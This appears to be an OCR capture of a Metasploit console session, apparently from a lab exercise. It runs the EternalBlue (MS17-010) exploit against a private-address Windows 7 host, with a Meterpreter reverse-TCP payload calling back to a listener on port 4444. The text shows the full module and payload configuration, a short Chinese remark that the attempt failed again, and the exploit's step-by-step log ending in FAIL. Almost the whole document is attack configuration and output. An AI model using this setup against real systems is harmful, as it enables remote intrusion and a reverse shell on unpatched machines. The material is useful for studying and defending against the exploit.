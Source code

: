 
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
                                                                                                                  
Module options (exploit/windows/smb/ms17_010_eternalblue):                                                        
                                                                                                                  
   Name           Current Setting  Required  Description                                                          
   ----           ---------------  --------  -----------                                                          
   RHOSTS         192.168.23.12    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      admin-PC         no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.2.0.213       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


=========================== 依然失败，但过程不大一样---只有一个 fail


msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.2.0.213:4444 
[*] 192.168.23.12:445 - Executing automatic check (disable AutoCheck to override)
[*] 192.168.23.12:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.23.12:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Enterprise 7600 x64 (64-bit)
[*] 192.168.23.12:445     - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.23.12:445 - The target is vulnerable.
[*] 192.168.23.12:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.23.12:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Enterprise 7600 x64 (64-bit)
[*] 192.168.23.12:445     - Scanned 1 of 1 hosts (100% complete)
[*] 192.168.23.12:445 - Connecting to target for exploitation.
[+] 192.168.23.12:445 - Connection established for exploitation.
[+] 192.168.23.12:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.23.12:445 - CORE raw buffer dump (25 bytes)
[*] 192.168.23.12:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 45 6e 74 65 72 70  Windows 7 Enterp
[*] 192.168.23.12:445 - 0x00000010  72 69 73 65 20 37 36 30 30                       rise 7600       
[+] 192.168.23.12:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.23.12:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.23.12:445 - Sending all but last fragment of exploit packet
[*] 192.168.23.12:445 - Starting non-paged pool grooming
[+] 192.168.23.12:445 - Sending SMBv2 buffers
[+] 192.168.23.12:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.23.12:445 - Sending final SMBv2 buffers.
[*] 192.168.23.12:445 - Sending last fragment of exploit packet!
[*] 192.168.23.12:445 - Receiving response from exploit packet
[+] 192.168.23.12:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.23.12:445 - Sending egg to corrupted connection.
[*] 192.168.23.12:445 - Triggering free of corrupted buffer.
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=